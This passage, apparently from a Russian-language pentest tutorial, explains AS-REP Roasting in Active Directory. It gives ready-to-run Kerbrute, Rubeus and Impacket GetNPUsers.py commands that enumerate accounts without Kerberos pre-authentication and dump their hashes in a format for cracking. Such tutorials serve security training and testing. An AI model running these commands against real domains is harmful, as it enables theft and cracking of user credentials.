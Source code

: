 Это выдаст список пользователей, у которых отключена опция **"Do not require Kerberos preauthentication"**, и которые уязвимы к AS-REP Roasting.

![5](https://github.com/ShAmRoWw/articles/blob/main/article_asreproasting/5.png)

### Вариант 2: Linux (Kerbrute)

[Kerbrute](https://github.com/ropnop/kerbrute) - лёгкий и быстрый инструмент для сбора информации о Kerberos.

Команда для поиска уязвимых учеток:

```bash
./kerbrute_linux_amd64 userenum -domain example.local --dc 10.10.10.10 users.txt
```

`users.txt` - список возможных имён пользователей. Kerbrute проверит, у кого отключена pre-auth, и выведет AS-REP-хэши.

![6](https://github.com/ShAmRoWw/articles/blob/main/article_asreproasting/6.png)

## 4.2 Этап 2: Запрос AS-REP и получение хэша

### Вариант 1: Windows (Rubeus)

**Rubeus** - один из самых популярных инструментов для работы с Kerberos.

Сначала получаем список уязвимых учеток:

```powershell
Rubeus.exe asreproast
```

Rubeus сам выполнит AS-REQ и выведет хэши в формате, пригодном для Hashcat.

![7](https://github.com/ShAmRoWw/articles/blob/main/article_asreproasting/7.png)

### Вариант 2: Linux (Impacket)

**Impacket** - набор Python-утилит для взаимодействия с сетевыми протоколами.

Утилита `GetNPUsers.py`:

```bash
python3 GetNPUsers.py example.local/ -dc-ip 10.10.10.10 -usersfile users.txt -format hashcat -outputfile asrep-hashes.txt
```

![8](https://github.com/ShAmRoWw/articles/blob/main/article_asreproasting/8.png)

Пример с конкретным пользователем:

```bash
python3 GetNPUsers.py example.local/username -no-pass
```

Если пользователь уязвим, в консоли появится `$krb5asrep$23$...` - это и есть хэш.

